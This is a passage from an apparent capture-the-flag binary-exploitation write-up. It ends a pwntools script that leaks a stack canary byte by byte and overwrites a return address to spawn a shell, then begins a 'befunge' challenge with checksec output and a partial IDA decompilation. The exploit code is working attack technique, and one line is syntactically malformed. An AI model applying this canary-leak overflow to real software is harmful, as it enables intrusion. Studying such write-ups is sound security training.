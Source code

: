 ```python

payload = p32(0)*4+p8(0x69+5)+'\x01'*111
edit(payload,'a')
show()
p.recvuntil('a')
bit_6 = u8(p.recv(1))
print(hex(bit_6))

payload = p32(0)*4+p8(0x69+6)+'\x01'*111
edit(payload,'a')
show()
p.recvuntil('a')
bit_7 = u8(p.recv(1))
print(hex(bit_7))
canary = +p8(0)+p8(bit_1)+p8(bit_2)+p8(bit_3)+p8(bit_4)+p8(bit_5)+p8(bit_6)+p8(bit_7)
payload = "\x00"*(0xf0-8)+canary+p64(0)+p64(0x04008E7)
write(payload,'a')
#gdb.attach(p)
p.sendlineafter('choice: ','5')

p.interactive()
```

# befunge

## checksc

```shell
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

## IDA

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char *v3; // rbp
  unsigned __int64 v4; // rcx
  __int64 i; // rax
  char v6; // di
  char v7; // dl
  __int64 v8; // rdi
  int v9; // eax
  __int64 v10; // r14
  __int64 v11; // rdi
  __int64 v12; // r14
  __int64 v13; // rdi
  __int64 v14; // r14
  __int64 v15; // rdi
  __int64 v16; // r14
  __int64 v17; // rdi
  __int64 v18; // r14
  __int64 v19; // rdi
  __int64 v20; // r14
  __int64 v21; // rax
  __int64 v22; // rax
  __int64 v23; // r14
```